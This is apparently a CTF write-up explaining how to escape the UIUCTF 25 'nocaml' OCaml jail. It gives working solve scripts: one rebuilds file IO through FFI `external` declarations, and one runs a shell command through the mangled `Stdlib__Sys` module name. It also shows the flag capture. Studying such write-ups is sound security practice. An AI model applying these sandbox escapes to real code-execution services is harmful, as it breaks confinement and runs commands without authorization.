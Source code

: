 ```yaml
---
title: UIUCTF 25 - nocaml
date: '2025-07-28T11:21:17+02:00'
math: false
categories:
- writeup
- uiuctf25
tags:
- misc
- ocaml
authors:
- nect
---
```


This is essentially an OCaml jail.

## Overview

The challenge runs user provided OCaml source code (encoded in base64).
The compiler is invoked with the flag `-open Nocaml`, that automatically imports
all the content of the module Nocaml into the scope of our code.

```sh
#excerpt from go.sh...
read -r line && echo "$line" | base64 -d > "$tmp_dir/code.ml"
ocamlc -o "$tmp_dir/out" -open Nocaml "$tmp_dir/code.ml" && "$tmp_dir/out"
```

In `nocaml.ml` we can see that all the values of the standard
library are rebound to the unit type (`()`).
Once those identifiers are shadowed we have no way to reach them.

```ocaml
let raise = ()
let raise_notrace = ()
let invalid_arg = ()
let failwith = ()
let ( = ) = ()
let ( <> ) = ()
let ( < ) = ()
let ( > ) = ()
let ( <= ) = ()
let ( >= ) = ()
let compare = ()
let min = ()
let max = ()
let ( == ) = ()
let ( != ) = ()
let not = ()
let ( && ) = ()
let ( || ) = ()
let __LOC__ = ()
let __FILE__ = ()
let __LINE__ = ()
let __MODULE__ = ()
(* and so on ... *)
module Stdlib = struct end
module String = struct end
module StringLabels = struct end
module Sys = struct end
module Type = struct end
(* and so on ... *)
```

As usual, the objective is reading the file `flag.txt`.

## Exploitation

The first thing that came to mind was using `Pervasives` (the old name of the `Stdlib` module).
Unfortunately newer versions of OCaml removed this alias.

At this point I went for the foreign function interface.
With the use of the `external` keyword, it's possible to declare
and invoke functions from the C ABI.

We don't have a way to create new foreign functions, but we don't really need to!
The `Stdlib` is always compiled and linked, even if we can't access it from the code.
This means that plenty of internal functions can be brought back with the FFI.

By diving into the [standard library code](https://github.com/ocaml/ocaml/tree/trunk/stdlib)
I found some useful IO primitives:

* `caml_sys_open` to open a file descriptor
* `caml_ml_open_descriptor_out` and `caml_ml_open_descriptor_in` to create channels from fds
* `caml_ml_output_char` and `caml_ml_input_char` to read and write chars

The script I used to get the flag is the following:

```ocaml
(* directly from Stdlib *)
type open_flag =
    Open_rdonly | Open_wronly | Open_append
  | Open_creat | Open_trunc | Open_excl
  | Open_binary | Open_text | Open_nonblock

external open_desc : string -> open_flag list -> int -> int = "caml_sys_open";;
external open_descriptor_out : int -> out_channel = "caml_ml_open_descriptor_out";;
external open_descriptor_in : int -> in_channel = "caml_ml_open_descriptor_in";;
external output_char : out_channel -> char -> unit = "caml_ml_output_char";;
external input_char : in_channel -> char = "caml_ml_input_char";;

let open_in name =
    open_descriptor_in (open_desc name [Open_rdonly; Open_text] 0)
;;

let stdout = open_descriptor_out 1;;
let flag = open_in "flag.txt";;

(* read recursively until error *)
let rec f () =
    output_char stdout (input_char flag);
    f ()
;;

f()
```

After this solve I also found a much shorter one (possibly unintended).
To prevent module collisions the compiler mangles module names (`Parent.Child` becomes `Parent__Child`).
The Stdlib is [not an exception][dune] to this, and `Nocaml` does not block those internal names.
So we can simply do:

```ocaml
Stdlib__Sys.command "cat flag.txt"
```

In both cases

```sh
$ (base64 -w0 solve.ml; echo) | ncat --no-shutdown --ssl nocaml.chal.uiuc.tf 1337
== proof-of-work: disabled ==
uiuctf{nocaml_79976241e31bee31e37c42885}
```

To conclude, I liked this challenge quite a bit.
Coming into this with OCaml experience, the solutions felt natural and intuitive.

[dune]: https://github.com/ocaml/ocaml/blob/9d44d724ad63ea76e22f5ac4740d7d0a66ec92bd/toplevel/dune#L92
